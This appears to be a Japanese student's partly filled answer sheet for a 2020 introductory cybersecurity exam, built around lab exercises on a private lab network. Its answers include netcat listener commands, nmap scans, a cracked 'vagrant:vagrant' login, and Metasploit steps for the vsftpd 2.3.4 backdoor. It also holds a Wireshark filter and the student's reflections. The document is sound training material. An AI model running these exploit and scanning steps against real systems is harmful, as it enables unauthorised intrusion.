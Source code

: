 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
# ここに回答を記述
meta nc -lvp 5555  kali nc 192.168.33.5
```
### クライアント側コマンド

```sh
# ここに回答を記述

```

## 問2 [Password Crack]

```md
<!--  ここに回答を記述 -->
vagrant:vagrant
```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# ここに回答を記述
nmap -sP 192.168.33.0/28
```

### 2. version scan

```sh
# ここに回答を記述
nmap -sV -O -p- 192.168.33.0/28
```

## 問4 [Metasploit Framework]

```sh
# ここに回答を記述
msfconsole

use exploit/unix/ftp/vsftpd_234_backdoor

set RHOST 192.168.33.5

show options

exploit


```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# ここに回答を記述

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述
http&&ip.addr==192.168.33.5
```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!--  ここに回答を記述 -->
積極性が足りなかった。表面的な所だけやったので分からない事が多かった。60/100
```

## 問9 [講義の感想]

```md
<!--  ここに回答を記述 -->
pcどうしでプラーベート通信ができる。
ハッキングは凄く地味。
ネットサーチや本を読むことで、ハッキング、監視、ができる。
コマンドや作業手順は全部覚えられないので、全体像をつかめるようになって、細かい部分は調べる

最初はついていくのに必死でしたが、授業後半には何の作業をしているのかが分かってきてスムーズに進められました。本を読まなくてもできるくらい全体像をつかめるように頑張りたいです。
```
